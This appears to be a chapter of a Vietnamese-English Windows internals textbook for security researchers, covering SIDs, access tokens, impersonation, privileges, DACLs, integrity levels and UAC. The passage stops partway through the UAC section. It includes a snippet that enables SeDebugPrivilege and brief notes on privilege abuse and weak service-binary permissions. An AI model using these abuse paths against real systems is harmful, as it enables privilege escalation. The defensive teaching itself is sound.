




# Chương 7 — Security

> **Researcher note:** Windows security không phải một feature — nó là một **model**. Model đó dựa trên identity (SID trong token), objects (security descriptors), và access checks (Security Reference Monitor). Mỗi lần một process mở một file, handle, hay device — model này chạy. Hiểu model giải thích tại sao admin không phải unlimited, tại sao SYSTEM không phải kernel mode, tại sao impersonation thay đổi access context, và tại sao "access denied" vẫn là telemetry quan trọng.

---

## 0. Chapter Map

| Mục | Nội dung | Tại sao quan trọng |
|-----|----------|--------------------|
| 0 | Chapter Map | Điều hướng và kết nối các chương |
| 1 | Researcher Mindset | Security là token + object + access check |
| 2 | Big Picture | Access check flow từ subject đến object |
| 3 | Key Terms | Từ điển thuật ngữ security model |
| 4 | Core Internals | SID, token, primary/impersonation, privilege vs permission, DACL/SACL/ACE, access check, MIC/IL, UAC, logon sessions, AppContainer, PPL |
| 5 | Important Components | Bảng component + SRM + LSASS + token + security descriptor types |
| 6 | Trust Boundaries | 10 ranh giới bảo mật của Windows security |
| 7 | Attack Surface Map | Bảng attack surface |
| 8 | Abuse Patterns | 8 bug class / threat model |
| 9 | EDR Telemetry | Token/privilege, object access, logon/session, service/sensitive, ETW, limits |
| 10 | Forensic Artifacts | Event Logs, registry, memory, ACLs, EDR/SIEM |
| 11 | Debugging Notes | whoami, Process Explorer, AccessChk, icacls, PowerShell, WinDbg |
| 12 | Labs | 6 bài thực hành |
| 13 | Researcher Mistakes | Bảng ≥18 sai lầm phổ biến |
| 14 | Version Notes | Thay đổi qua các phiên bản Windows |
| 15 | Summary | Tổng hợp |
| 16 | Research Questions | 12 câu hỏi mở |
| 17 | References | Tài liệu tham khảo |
| 18 | Illustration Plan | Kế hoạch diagram và screenshot |

**Kết nối với các chương khác:**

- **Chapter 2** (System Architecture): giới thiệu Security Reference Monitor, protected processes (PPL), và VBS preview. Chapter 7 đi sâu vào cơ chế hoạt động của từng component này.
- **Chapter 3** (Processes and Jobs): process token là security container chính — `EPROCESS.Token` pointer. Handle table và object access đều đi qua model này. Chapter 7 giải thích token và tại sao nó quan trọng.
- **Chapter 4** (Threads): thread có thể có impersonation token riêng, override process token cho access checks. Toàn bộ service/RPC/named pipe impersonation pattern liên quan đến Chapter 4 và Chapter 7.
- **Chapter 5** (Memory Management): memory access rights (RX, RW, RWX) là per-page ACLs trong PTE. Process isolation là enforcement của process address space separation. Section object access là object security.
- **Chapter 6** (I/O System): file/device object security descriptors, device ACLs, service permissions — tất cả đều áp dụng security model của Chapter 7.

**Security trong Windows không phải một feature** — nó là infrastructure mà mọi chương khác build on top. Không có chương nào không liên quan đến token, SID, DACL, hay access check.

---

## 1. Researcher Mindset

**Windows security là object-based và token-driven.**

Mọi security decision trong Windows có thể được frame theo một mô hình đơn giản:

```
Subject (có token) muốn access Object (có security descriptor)
→ Security Reference Monitor evaluate
→ Access granted hoặc denied
→ (optionally) Audit event generated
```

Nhưng "đơn giản" không có nghĩa là "dễ hiểu" — mỗi element trong model có nhiều tầng:

**Subject không chỉ là username.** Token của một process chứa:
- User SID — ai là principal
- Group SIDs — context groups (Administrators, Users, BUILTIN\...)
- Privileges — system-level capabilities
- Integrity level — process integrity (Low/Medium/High/System)
- Logon session ID — authentication context
- Elevation state — filtered vs elevated (UAC context)
- Optional: Restricted SIDs, AppContainer, Capabilities

**Object không chỉ là file.** Security descriptor của object chứa:
- Owner SID
- DACL — Discretionary ACL: kiểm soát ai có access
- SACL — System ACL: kiểm soát audit
- Integrity label — minimum integrity level requirement

**"Admin" không phải final security state.** Một admin process trong normal user session thường chạy với **filtered token** (medium integrity) — không phải elevated token (high integrity). Chúng không có cùng access:

```
Normal admin session:
  Token: filtered medium IL, many privileges disabled
  → Cannot open high-IL processes for write
  → Cannot load drivers
  → Some privileged operations blocked

Elevated admin session (ran as administrator):
  Token: full high IL, privileges enabled
  → Can open most processes
  → Can modify system files
  → Can load drivers (nếu có SeLoadDriverPrivilege)
```

**"SYSTEM" không phải kernel mode.** LSASS, services.exe, svchost.exe chạy as SYSTEM đều là user-mode processes. Chúng có wide access trong user mode nhưng vẫn subject to kernel access checks, cannot directly touch kernel memory, và cannot bypass hardware privilege boundaries. Kernel mode = Ring 0 CPU privilege — không phải user account level.

**Ba câu hỏi cần đặt ra với mọi security analysis:**

1. **Token là gì?** — User SID, group SIDs, privileges, IL, elevation, logon session
2. **Object security descriptor là gì?** — Owner, DACL ACEs, integrity label
3. **Requested access mask là gì?** — Generic rights, specific rights, privilege needed?

**Ví dụ cụ thể:**

```
Scenario 1 — Filtered admin fails:
  Medium IL process (admin, not elevated)
  → OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid_of_high_IL_process)
  → FAILS: integrity check blocks write-up access
  → NOT because DACL denies, but because MIC blocks

Scenario 2 — SYSTEM vs PPL:
  SYSTEM process attempts OpenProcess(PROCESS_VM_READ, lsass_pid)
  LSASS running as PPL (Protected Process Light)
  → FAILS: PPL protection level blocks access even from SYSTEM
  → Protection level check happens before DACL check

Scenario 3 — Thread impersonation context:
  svchost.exe (SYSTEM token) handling RPC call
  Thread impersonates caller (Medium IL user)
  → File access during impersonation uses caller's token
  → Access check uses impersonation token, not process token
  → File that SYSTEM could access may be denied to caller

Scenario 4 — Weak service permissions:
  Service binary ACL: Authenticated Users: FILE_WRITE_DATA
  Any authenticated user can modify service binary
  → Service restart → arbitrary code runs as service account
  → Security boundary problem rooted in DACL
```

> **Researcher note:** Khi phân tích security incident hoặc configuration, resist the urge to stop at "process is running as admin" hoặc "SYSTEM". Inspect token cụ thể: elevation state? privileges enabled? integrity level? logon session type? Những field này thường phân biệt legitimate tool behavior và anomalous behavior rõ hơn chỉ dựa vào username.

---

## 2. Big Picture

### 2.1 Access check flow



### 2.2 Token contents



> **Researcher note:** Token là kernel object (`_TOKEN`) — không chỉ là data struct trong EPROCESS. Nó có object header, reference count, handle table. `NtOpenProcessToken` trả về handle đến token object — caller phải có `TOKEN_QUERY` access trên process handle trước. Nhiều EDR sensors capture token state tại process creation — nhưng token có thể thay đổi (e.g., qua `NtAdjustPrivilegesInToken`, `ImpersonateLoggedOnUser`, etc.).

---

## 3. Key Terms

| Thuật ngữ | Định nghĩa ngắn (Vietnamese) | Relevance cho researcher |
|-----------|-------------------------------|--------------------------|
| **SID** | Security Identifier — binary identifier cho user, group, hoặc computer | Real identity dùng trong access checks — username có thể đổi, SID thì không |
| **User SID** | SID của user account trong token | Primary identity của process/thread |
| **Group SID** | SID của group mà user là member | Expands access context; group ACEs apply |
| **Well-known SID** | Predefined SIDs như SYSTEM, Administrators, Everyone | Không phụ thuộc domain/machine; documented và stable |
| **Access token** | Kernel object đại diện security identity — chứa SIDs, privileges, IL, logon session | Security container của process/thread |
| **Primary token** | Token được gán cho process | Default security context cho tất cả threads trong process |
| **Impersonation token** | Token được thread dùng tạm thời để impersonate another principal | Thread identity có thể khác process identity |
| **Restricted token** | Token với subset of groups và privileges — created bởi `CreateRestrictedToken` | Sandboxing pattern; security softening |
| **Filtered token** | UAC-specific restricted token từ full admin token — medium IL, privileges removed | Normal admin session token trước khi elevation |
| **Privilege** | System-level capability trong token (SeDebugPrivilege, SeLoadDriverPrivilege...) | Tách biệt với permission — grants system-wide capability |
| **Permission** | Access right được grant bởi object DACL | Object-specific; controlled by security descriptor |
| **Access right** | Specific operation được phép trên object type (FILE_READ_DATA, PROCESS_VM_READ...) | Granular control trong DACL ACEs |
| **Access mask** | 32-bit bitmask encoding requested hoặc granted rights | Cả requested access và handle granted access |
| **Generic access** | Generic rights (GENERIC_READ, WRITE, EXECUTE, ALL) | Mapped by object type to specific rights |
| **Specific access** | Object-type-specific rights (FILE_READ_DATA, KEY_QUERY_VALUE...) | Final form sau mapping |
| **Security descriptor** | Struct mô tả security của một object: owner, DACL, SACL, integrity label | Object-side của access check equation |
| **Owner** | SID của owner của object — có implicit write DACL ability | Owners can always change DACL (with take ownership) |
| **DACL** | Discretionary ACL — list of ACEs kiểm soát access | Main access control mechanism |
| **SACL** | System ACL — list of audit ACEs kiểm soát logging | Audit configuration; not access control |
| **ACE** | Access Control Entry — one rule in an ACL | Allow/Deny/Audit entry với SID + access mask |
| **Allow ACE** | ACE granting access | Positive permission |
| **Deny ACE** | ACE denying access — checked trước Allow ACEs | Explicit denial overrides matching Allow |
| **Audit ACE** | ACE trong SACL triggering audit event | Generates Event Log entry if audit policy configured |
| **Access check** | Process kernel thực hiện để decide allow/deny | SRM evaluates: token + DACL + IL + privileges |
| **Security Reference Monitor** | Kernel component implementing access check logic | Core enforcement — nhận token + SD → decision |
| **Mandatory Integrity Control** | Layer đảm bảo lower IL process không write-up đến higher IL | Integrity label on object limits who can write |
| **Integrity level** | Label trên token và objects: Low(4096)/Medium(8192)/High(12288)/System(16384) | Additional layer beyond DACL |
| **Low IL** | Internet Explorer protected mode, browser sandbox | Severely restricted write access |
| **Medium IL** | Normal user process, filtered admin | Standard user-mode context |
| **High IL** | Elevated admin process | Elevated context — many system modifications |
| **System IL** | SYSTEM services, kernel-related processes | Highest user-mode IL |
| **UAC** | User Account Control — creates filtered/elevated token split for admins | Separates daily use from privileged operations |
| **Linked token** | Pair of tokens: filtered (medium) + full (high) linked together in admin session | Allows elevation without full re-logon |
| **Elevation** | Getting elevated (high IL) token from filtered (medium IL) token | UAC prompt → full token granted |
| **Logon session** | Authentication context created at logon — identified by LUID | Groups tokens, credentials, processes from one logon |
| **Authentication package** | Module in LSASS implementing specific auth protocol (NTLM, Kerberos, MSV1_0) | Handles credential validation |
| **LSASS** | Local Security Authority Subsystem Service — central auth/security service | Sensitive target; handles credential material conceptually |
| **Service SID** | Per-service SID (S-1-5-80-...) auto-generated for each named service | Allows precise per-service ACL granting |
| **AppContainer** | Sandboxed process identity model for UWP/modern apps | Heavily restricted token with capability-based access |
| **Capability SID** | Special SID granting specific resource access in AppContainer | Maps to allowed resources (network, camera, etc.) |
| **Impersonation level** | How much the impersonating thread can do: Anonymous/Identification/Impersonation/Delegation | Constrains what impersonated token can be used for |
| **Protected Process** | Windows process protection model limiting handle access even from admin/SYSTEM | Kernel enforces access restrictions beyond DACL |
| **PPL** | Protected Process Light — lighter version, tunable signer policy | LSASS PPL, AV PPL, etc. |
| **Audit policy** | System-wide settings controlling which events generate Security Event Log entries | Without policy, events not generated even if SACL set |
| **Object access auditing** | Specific audit policy category for file/registry/object access | Requires both audit policy and SACL on target objects |

---

## 4. Core Internals

### 4.1 SID, users, và groups

**SID là real identity** — không phải username. Username là display string; SID là binary identifier dùng trong access checks.

**SID format:**

```
S-1-5-21-3623811015-3361044348-30300820-1013
│  │  │  └─────────────────────────────────── Relative Identifier (RID) — unique trong domain/machine
│  │  └── Domain Identifier (3 sub-authorities for domain accounts)
│  └── Identifier Authority (5 = NT Authority)
└── Revision (always 1)

Well-known SIDs (abbreviated):
S-1-5-18    = NT AUTHORITY\SYSTEM
S-1-5-19    = NT AUTHORITY\LOCAL SERVICE
S-1-5-20    = NT AUTHORITY\NETWORK SERVICE
S-1-5-32-544 = BUILTIN\Administrators
S-1-5-32-545 = BUILTIN\Users
S-1-1-0     = Everyone
S-1-5-11    = Authenticated Users
S-1-16-8192  = Mandatory Label\Medium Mandatory Level (IL)
S-1-16-12288 = Mandatory Label\High Mandatory Level (IL)
```

**Group SIDs trong token:**

Mỗi token có list of group SIDs với attributes:

| Group SID attribute | Ý nghĩa |
|---------------------|---------|
| `SE_GROUP_ENABLED` | Group active trong token — contributes to access checks |
| `SE_GROUP_ENABLED_BY_DEFAULT` | Enabled by default mỗi logon |
| `SE_GROUP_MANDATORY` | Cannot be disabled — always used in access check |
| `SE_GROUP_USE_FOR_DENY_ONLY` | Used only for deny ACE matching — not for allow |
| `SE_GROUP_INTEGRITY` | Integrity SID marker |
| `SE_GROUP_LOGON_ID` | Logon session SID |

**Researcher angle:**

- Process username trong Task Manager là shortcut — nó shows user SID. Nhưng group SIDs explain tại sao access được granted: process chạy as user "Alice" nhưng Alice là member của `Administrators` — group SID `S-1-5-32-544` có trong token và matches ACE.
- `SE_GROUP_USE_FOR_DENY_ONLY`: restricted token có thể set group này trên một SID để ensure only deny ACEs apply — group không contribute đến allow. Dùng bởi `CreateRestrictedToken`.
- Service accounts (`LOCAL SERVICE`, `NETWORK SERVICE`, service SIDs `S-1-5-80-...`) là separate identities — không confuse với user accounts.

**Common service account SIDs:**

| Account | SID | Scope |
|---------|-----|-------|
| `NT AUTHORITY\SYSTEM` | `S-1-5-18` | Broad local system access |
| `NT AUTHORITY\LOCAL SERVICE` | `S-1-5-19` | Limited — no network credentials |
| `NT AUTHORITY\NETWORK SERVICE` | `S-1-5-20` | Limited + network credentials |
| `NT SERVICE\<name>` | `S-1-5-80-...` | Per-service virtual account |
| `IIS APPPOOL\<name>` | `S-1-5-82-...` | IIS application pool virtual account |

### 4.2 Access token

Token là kernel object (`_TOKEN`) — không phải data struct trong process. Process object (`_EPROCESS`) có `Token` field pointing to token object.

**Key fields trong `_TOKEN`:**

```c
// _TOKEN key fields (simplified — WDK/version-sensitive)
struct _TOKEN {
    // Identity
    _SID_AND_ATTRIBUTES UserAndGroups[];     // [0] = user SID, [1..N] = group SIDs
    ULONG               UserAndGroupCount;
    _LUID_AND_ATTRIBUTES Privileges[];       // enabled/disabled privileges
    ULONG               PrivilegeCount;

    // Integrity
    _SID_AND_ATTRIBUTES *IntegrityLevelIndex; // Points into UserAndGroups; SE_GROUP_INTEGRITY

    // Session / logon
    _LUID               AuthenticationId;    // Logon session LUID
    ULONG               SessionId;           // Terminal Services session

    // Elevation (UAC)
    _TOKEN_TYPE         TokenType;           // Primary or Impersonation
    SECURITY_IMPERSONATION_LEVEL ImpersonationLevel; // if impersonation token
    TOKEN_ELEVATION_TYPE ElevationType;      // Default, Full, Limited

    // Default security
    _ACL *DefaultDacl;                       // DACL for new objects created by this token

    // Restrictions
    _SID_AND_ATTRIBUTES *RestrictedSids;     // If restricted token
    ULONG               RestrictedSidCount;

    // AppContainer (if applicable)
    _SID *AppContainerSid;
    _SID_AND_ATTRIBUTES Capabilities[];

    // Trust label (if applicable)
    ULONG               TrustLevel;

    // Flags
    ULONG               TokenFlags;          // HasRestrictedSids, IsFiltered, etc.
};
```

**Token là security context — không chỉ username.** Hai processes chạy as cùng user nhưng có khác nhau token nếu:
- Một process elevated (UAC prompt), một không
- Một process được started với restricted token
- Một process impersonating khác user
- Session khác nhau (logon session khác)

### 4.3 Primary token vs Impersonation token

**Primary token:**

- Gán cho process tại creation time (`CreateProcess`, `CreateProcessAsUser`)
- Represent identity của process
- Tất cả threads inherit primary token bởi default
- Không thể trực tiếp thay primary token của running process (qua normal API)

**Impersonation token:**

- Thread có thể temporarily impersonate another principal
- `ImpersonateLoggedOnUser`, `ImpersonateNamedPipeClient`, `RpcImpersonateClient`, `CoImpersonateClient`
- Thread stores impersonation token separately from process primary token
- `RevertToSelf` removes impersonation — thread returns to process primary token

**Thread identity thực tế trong access checks:**

```
Thread access check uses:
  → If thread has impersonation token: USE impersonation token
  → If not: USE process primary token

Therefore:
  EPROCESS.Token = process identity
  ETHREAD.ImpersonationInfo → impersonation token (if set)
```

**Impersonation levels:**

| Level | Value | Ý nghĩa | Allowed operations |
|-------|-------|---------|-------------------|
| `SecurityAnonymous` | 0 | Server cannot identify client | Almost nothing |
| `SecurityIdentification` | 1 | Server can identify/check but not impersonate | Query SID, check groups |
| `SecurityImpersonation` | 2 | Server acts as client on local machine | Local access as client |
| `SecurityDelegation` | 3 | Server can delegate to remote machines | Network access as client |

**Researcher angle:**

- Procmon và process tools thường chỉ show process-level identity. Thread impersonation thường invisible từ process list.
- Service processes (svchost, dllhost, rpcss) thường xuyên impersonate calling users/clients. Một svchost.exe chạy as SYSTEM nhưng thread đang impersonate caller user cho một RPC request — file access trong đó sẽ dùng caller's token.
- Security analysis của services phải consider: process token AND thread impersonation state.
- EDR sensors register `ObRegisterCallbacks` hoặc ETW-TI để capture handle open — nhưng thread-level impersonation context có thể cần additional instrumentation.

### 4.4 Privileges vs permissions

**Đây là distinction quan trọng nhất mà beginners bỏ qua.**

| | Permission | Privilege |
|-|------------|-----------|
| **Scope** | Per-object | System-wide |
| **Where stored** | Object DACL ACE | Token privilege list |
| **What it controls** | Access to specific object | System-level capability |
| **Example** | DACL: Alice: FILE_READ_DATA | Token: SeDebugPrivilege |
| **How checked** | SRM DACL evaluation | Privilege check (`SePrivilegeCheck`) |
| **Can be disabled?** | N/A | Yes — present ≠ enabled |

**Privilege must be enabled before use:**

```c
// Privilege mà không enabled → không work
LUID luid;
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);

TOKEN_PRIVILEGES tp;
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;  // Enable it!

AdjustTokenPrivileges(hToken, FALSE, &tp, 0, NULL, NULL);
// Now SeDebugPrivilege is enabled in token
```

**High-impact privileges — researcher phải biết:**

| Privilege | Impact | Researcher note |
|-----------|--------|-----------------|
| `SeDebugPrivilege` | Open any process, read/write memory | Allows `OpenProcess(ALL_ACCESS, ...)` on protected processes; not unlimited — PPL still blocks |
| `SeLoadDriverPrivilege` | Load/unload kernel drivers | Kernel code execution potential; very high impact |
| `SeImpersonatePrivilege` | Impersonate any client after getting their token | Critical in service context; various token impersonation patterns available |
| `SeAssignPrimaryTokenPrivilege` | Assign primary token to process | Change process identity at start |
| `SeTcbPrivilege` | "Trusted computing base" — act as part of OS | Create tokens, set token values; very high impact |
| `SeBackupPrivilege` | Open files/registry bypassing DACL for backup | Can read any file regardless of ACL |
| `SeRestorePrivilege` | Restore files/registry bypassing DACL | Can write any file regardless of ACL |
| `SeTakeOwnershipPrivilege` | Take ownership of objects | After taking ownership, can change DACL; enables access to any object |
| `SeSecurityPrivilege` | Read/write SACL on objects | Can modify audit configurations; read sensitive SACL |
| `SeCreateSymbolicLinkPrivilege` | Create filesystem symlinks | Path hijacking potential |
| `SeCreateTokenPrivilege` | Create access tokens from scratch | Extremely rare; allows arbitrary token creation |

> **Researcher note:** **Disabled privilege còn matter**. Nếu token có `SeDebugPrivilege` nhưng disabled, attacker chỉ cần `AdjustTokenPrivileges` để enable nó — không cần escalate. Process với `SeLoadDriverPrivilege` nhưng disabled trong medium IL context vẫn là higher-risk process khi elevated. Inventory phải note: present + disabled vs absent entirely.

### 4.5 Security descriptor, DACL, SACL, ACE

**Security descriptor** mô tả security của một object. Nó được attach vào mọi securable Windows object (file, registry key, process, thread, service, device, named pipe, etc.).

```
SECURITY_DESCRIPTOR
├── Revision
├── Sbz1 (alignment)
├── Control flags (SE_DACL_PRESENT, SE_SACL_PRESENT, SE_DACL_INHERITED, ...)
├── OwnerSid  → SID of owner
├── GroupSid  → Primary group (used on POSIX for NFS)
├── Sacl      → Pointer to SACL (System ACL — audit)
└── Dacl      → Pointer to DACL (Discretionary ACL — access control)

DACL / SACL
├── AclRevision
├── AceCount
└── ACE[0..N]
    └── ACE
        ├── AceType  (ACCESS_ALLOWED_ACE_TYPE=0, ACCESS_DENIED_ACE_TYPE=1, SYSTEM_AUDIT_ACE_TYPE=2, ...)
        ├── AceFlags  (inheritance flags: CONTAINER_INHERIT, OBJECT_INHERIT, etc.)
        ├── AceSize
        ├── Mask      → Access mask (FILE_READ_DATA, KEY_ALL_ACCESS, etc.)
        └── Sid       → Subject SID this ACE applies to
```

**Null DACL vs Empty DACL — critical distinction:**

| DACL state | Ý nghĩa | Security impact |
|------------|---------|-----------------|
| **Null DACL** (`Dacl = NULL`, `SE_DACL_PRESENT` not set) | Không có access control — tất cả access được grant | **Extremely permissive — everyone full access** |
| **Empty DACL** (`Dacl` points to empty ACL, 0 ACEs) | Explicit access control với no allows | **Denies all access (implicit deny)** |
| **Normal DACL** | Explicit ACEs | Access controlled by ACE list |

**Đây là source của nhiều bugs:** code tạo security descriptor và để Dacl = NULL vô tình tạo world-accessible object.

**ACE processing order — DACL evaluation:**

1. Deny ACEs (ACCESS_DENIED_ACE_TYPE) được processed trước
2. Allow ACEs (ACCESS_ALLOWED_ACE_TYPE) được processed sau
3. Nếu không có ACE matches: implicit deny
4. Evaluation stops khi all requested bits satisfied hoặc any bit denied

**Inheritance:**

ACEs có thể inherit xuống child objects (files trong directory, registry keys, etc.) qua `AceFlags`:
- `CONTAINER_INHERIT_ACE`: inherit bởi child containers (subdirectories)
- `OBJECT_INHERIT_ACE`: inherit bởi child objects (files)
- `INHERIT_ONLY_ACE`: chỉ affect child, không affect object này
- `NO_PROPAGATE_INHERIT_ACE`: inherit đến direct children only, không propagate sâu hơn

**Researcher angle:**

- Khi diagnosing access failures, kiểm tra cả explicit ACEs và inherited ACEs. Inherited ACE từ parent directory có thể override expected behavior.
- Deny ACE ordering: add explicit Allow ACE không override Deny ACE nếu Deny được processed first. Cần remove Deny ACE trước hoặc explicitly structure ACL.
- Backup file DACL trước khi modify — `icacls C:\path /save acl.txt` và `icacls C:\path /restore acl.txt`.

### 4.6 Access check — step by step



**Important nuances:**

- **Owner special right:** Object owner có `WRITE_DAC` và `READ_CONTROL` access rights ngay cả khi DACL không explicitly grant chúng. Owner luôn có thể đọc và sửa DACL của object đó.
- **GROUP in token**: tất cả group SIDs enabled trong token đều được consider, không chỉ user SID. Nếu bất kỳ group nào match một Deny ACE → denied.
- **Access check caches không nhất thiết updated ngay:** cached access in open handle không recheck sau DACL change — chỉ new opens bị affected.

### 4.7 Mandatory Integrity Control và Integrity Levels

**MIC** là security layer bổ sung nằm **trên** DACL. Nó enforce "no write-up" policy:

| Integrity Level | SID | Hex | Typical process |
|-----------------|-----|-----|-----------------|
| Untrusted | S-1-16-0 | 0x0000 | Extremely restricted |
| Low | S-1-16-4096 | 0x1000 | IE Protected Mode, browser sandbox |
| Medium | S-1-16-8192 | 0x2000 | Normal user processes, filtered admin |
| High | S-1-16-12288 | 0x3000 | Elevated admin, some services |
| System | S-1-16-16384 | 0x4000 | SYSTEM services (winlogon, lsass, services.exe) |
| Protected | S-1-16-20480 | 0x5000 | Wininit, some critical processes |

**MIC write-up rule:**

```
Default: Low IL process CANNOT WRITE to Medium IL object
         Medium IL process CANNOT WRITE to High IL object

Exception: object label có NO_WRITE_UP flag cleared (rare — not default)

Note: READ is typically allowed across IL boundaries (read-down is fine)
Note: EXECUTE is typically allowed
Note: WRITE is restricted (no write-up)
```

**Key insight:** MIC failure xuất hiện khi DACL cho phép nhưng IL blocks. Ví dụ:

```
Object: C:\SharedFile.txt
DACL: Everyone: GENERIC_WRITE
Label: Medium IL

Low IL browser process tries to write
→ DACL check: PASS (Everyone allows write)
→ MIC check: FAIL (Low IL cannot write-up to Medium IL object)
→ ACCESS DENIED
→ Error returned to browser: "access denied" even though DACL would allow it
```

**Process IL trong Process Explorer:** DL column (hoặc Integrity Level column in Details). Low = browser tab. Medium = normal user apps. High = elevated admin. System = system services.

### 4.8 UAC và filtered tokens

**UAC (User Account Control)** tạo **split-token** behavior cho admin accounts:

```
Admin logs on:
  → Winlogon/LSA creates two linked tokens:
    1. Full token: high IL, all groups enabled, all privileges enabled
    2. Filtered token: medium IL, admin group SE_GROUP_USE_FOR_DENY_ONLY,
                       many privileges removed/disabled

  → Normal processes get: FILTERED token (medium IL)
  → "Run as Administrator" → use: FULL token (high IL) after UAC prompt consent
```

**Linked token pair:**

| Property | Filtered token | Full token |
|----------|---------------|-----------|
| Integrity level | Medium (8192) | High (12288) |
| Administrators group | DENY_ONLY | Enabled |
